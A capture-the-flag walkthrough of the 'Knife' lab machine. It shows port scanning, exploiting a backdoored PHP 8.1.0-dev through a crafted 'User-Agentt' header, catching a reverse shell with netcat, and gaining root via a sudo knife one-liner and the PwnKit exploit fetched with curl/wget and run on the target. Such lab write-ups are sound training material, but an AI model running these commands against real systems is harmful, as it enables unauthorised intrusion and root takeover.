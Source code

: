 ```yaml
---
title: Knife
published: true
layout: post
---
```


<br />

---------------
Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

<br />

![Streaming](https://youtu.be/dkUBdFwqKy4)

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.242 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![All Ports](/assets/Knife/Knife/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services](/assets/Knife/Knife/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp Apache httpd 2.4.41**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![Vulnerabilities](/assets/Knife/Knife/3.png)
<br />
<br />
<br />

We only detect a **DoS vulnerability** for the **http service**, which is not useful.

<br />

------

<br />
### Foothold

I think this machine is pretty **beginner-friendly**, as we can solve it basically by enumerating and searching for exploits, however we have to understand what we are doing.

<br />

The first thing that revealed a vulnerability was the **technologies enumeration**:

```bash
whatweb http://10.10.10.242 > whatweb.txt
```

![Whatweb](/assets/Knife/Knife/4.png)
<br />
<br />
<br />

The version of PHP is definitely noteworthy, **8.1.0-dev**, the *-dev* suffix is not common in production environments, which leads me to search for a vulnerability using searchsploit:

```bash
searchsploit PHP 8.1.0-dev
```

![Searchsploit](/assets/Knife/Knife/5.png)
<br />
<br />
<br />

We can see an exploit that perfectly fits our version, so let's read it and try to replicate it:
![Exploit](/assets/Knife/Knife/6.png)
<br />
<br />
<br />

It seems that the script sends an HTTP request in which there is an uncommon header, *User-Agentt*, in which we can use the function `zerodiumsystem()` to **execute a command**, which output is printed before the *<!DOCTYPE html>* tag. Let's try it using BurpSuite:

![whoami](/assets/Knife/Knife/7.png)
<br />
<br />
<br />

It's working like a charm, let's send us a **reverse shell**:
```bash
rlwrap nc -nlvp 4444
```

![RevShell](/assets/Knife/Knife/8.png)
<br />
<br />
<br />

Let's print the flag and go for the privilege escalation:
![UserOwn](/assets/Knife/Knife/9.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation
For this machine, I discovered **two ways to escalate privileges**, the conventional one and an alternative one.

<br />
#### Conventional Privilege Escalation
Enumerating the system, I discovered that we are able to run the `knife` command as sudo without requiring a password:
```bash
sudo -l
```

![sudo](/assets/Knife/Knife/10.png)
<br />
<br />
<br />

A glimpse at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) uncovered the way:
```
sudo knife exec -E 'exec "/bin/bash"'
```
![knifeprivesc](/assets/Knife/Knife/11.png)
<br />
<br />
<br />

Now we just have to print the flag:
![RootOwn](/assets/Knife/Knife/12.png)

<br />
#### Alternative Privilege Escalation
The alternative privilege escalation method works through **CVE-2021-4034**, which is based on giving **SUID permission to an old version of the pkexec binary**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![SUID](/assets/Knife/Knife/13.png)
<br />
<br />
<br />

To exploit this vulnerability I used the [PwnKit](https://github.com/ly4k/PwnKit) created by **ly4k**, we just have to download it in our machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
sudo python3 -m http.server 80
```
<br />

And then **transfer it to the target machine and run it**:

```bash
wget http://10.10.16.8/PwnKit
chmod +x PwnKit
./PwnKit
```

![PwnKit](/assets/Knife/Knife/14.png)
<br />
<br />
<br />

Now we just have to print the flag:
![RootOwn](/assets/Knife/Knife/12.png)
